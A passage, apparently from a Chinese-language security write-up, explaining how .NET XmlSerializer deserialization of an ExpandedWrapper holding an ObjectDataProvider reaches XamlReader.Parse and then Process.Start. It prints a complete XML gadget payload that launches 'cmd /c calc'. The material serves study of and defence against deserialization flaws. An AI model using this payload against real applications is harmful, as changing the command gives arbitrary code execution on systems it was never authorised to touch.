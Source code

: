 那么接下来只需将`xaml`与通过`objectProvider`调用`XamlReader.Parse`方法的字符串结合起来即可  
`XmlSerializer`的`Deserialize`方法调用时先创建`ExpandWrapper`对象，在为`ExpandWrapper`的属性`ProjectedProperty0`赋值时会调用`Read7_ObjectDataProvider`方法创建`ObjectDataProvider`对象，  
`ObjectDataProvider`对象创建过程中会调用到`MethodName`的`set`访问器，然后触犯`XamlReader`的`Parse`方法对`ResourceDictionary`进行解析创建`ObjectDataProvider`这个资源，从而再次访问到`ObjectDataProvider`的`MethodName`属性的`set`访问器  
从而调用到`Process`的`Start`方法，从而导致命令执行。
```Xml
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
           <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Parse</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                <![CDATA[
					<ResourceDictionary 
						xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
						xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
						xmlns:b="clr-namespace:System;assembly=mscorlib" 
						xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
						<ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
							<ObjectDataProvider.MethodParameters>
								<b:String>cmd</b:String>
								<b:String>/c calc</b:String>
							</ObjectDataProvider.MethodParameters>
						</ObjectDataProvider>
					</ResourceDictionary>
					]]>
            </anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```


